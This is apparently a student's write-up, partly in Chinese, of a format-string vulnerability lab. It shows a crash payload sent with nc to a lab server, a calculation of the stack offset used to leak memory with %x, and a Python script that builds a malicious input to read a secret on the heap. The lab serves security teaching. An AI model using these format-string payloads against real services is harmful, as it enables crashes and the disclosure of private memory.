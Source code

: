 # Format String

## Task 1: Crashing the Program

`input`:

```
%s%s%s%s%n
```

```shell
$ cat input | nc 10.9.0.5 9090
```

## Task 2: Printing Out the Server Program’s Memory

### Task 2.A: Stack Data.

由程序输出，可以知道buf数组的地址是0xffffd6a0，myprintf的ebp为0xffffd5c8。0xffffd6a0-0xffffd5c8=216，216/4=54。从54个%x开始尝试，增加%x的个数直到能输出buf的内容。

```python
>>> print ("%x "*64)
%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
```

![image-20220216161137238](Format String.assets/image-20220216161137238.png)

注意到25207825对应的是`%x %`的ASCII编码。

### Task 2.B: Heap Data

`geninput.py`

```python
#!/usr/bin/python3
import sys
 
# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))
 
# This line shows how to store an integer at offset 0
secret_addr = 0x080b4008
content[0:4] = secret_addr.to_bytes(4, byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8] = ("abcd").encode("latin-1")
 
# This line shows how to construct a string s with
# 12 of "%.8x", concatenated with a "%s"
s = "%.8x"*63 + "%s"
 
# The line shows how to store the string s at offset 8
fmt = (s).encode("latin-1")
content[8:8+len(fmt)] = fmt
 
# Write the content to badfile
file = open("badfile", "wb")
file.write(content)
file.close()

```
